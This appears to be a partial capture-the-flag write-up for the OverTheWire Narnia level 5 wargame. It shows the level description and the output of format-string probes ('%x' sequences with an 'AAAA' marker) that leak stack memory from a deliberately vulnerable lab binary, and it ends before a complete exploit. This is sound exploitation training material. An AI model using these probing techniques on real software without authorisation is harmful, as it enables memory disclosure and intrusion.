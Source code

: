 #Narnia5

narnia.labs.overthewire.org

**Username:** narnia5
**Password:** see [narnia4](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria4)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Just running the program provides us a little bit of a hint.
>
>```
# ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffb60dbc)
>```
>
> 
>```
# ./narnia5 %x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f76b9960ffb1f4e6] (16)
i = 1 (0xffb1f50c)
# ./narnia5 AAAA%x%x%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7650960ffbff5f6f75fe315ffbff5f7414141413536376630363930] (60)
i = 1 (0xffbff61c)
>```

